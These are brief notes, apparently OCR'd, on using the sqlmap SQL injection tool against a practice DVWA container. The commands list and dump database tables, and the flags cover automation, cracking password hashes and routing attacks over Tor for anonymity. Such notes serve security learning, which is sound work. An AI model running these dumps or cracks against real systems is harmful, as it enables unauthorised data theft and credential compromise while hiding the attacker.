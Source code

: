 sqlmap -r /root/Desktop/request.txt --D 'db name' --tables
		-- displays all the tables in the database 

sqlmap -r /root/Desktop/request.txt --D 'db name' --T 'tablename' --dump

docker run --rm -it -p 80:80 vulnerable/dvwa

--batch (automates the process )
--password (to dump and crack password hashes )

(anonimity on sqlmap)
--tor 

--level 
--level=1. (get+post)
--level=2(http cookie)
--level=3 (http user-agent / referrer)
--level=4 (enables more payload )
--level=5 (http host-)
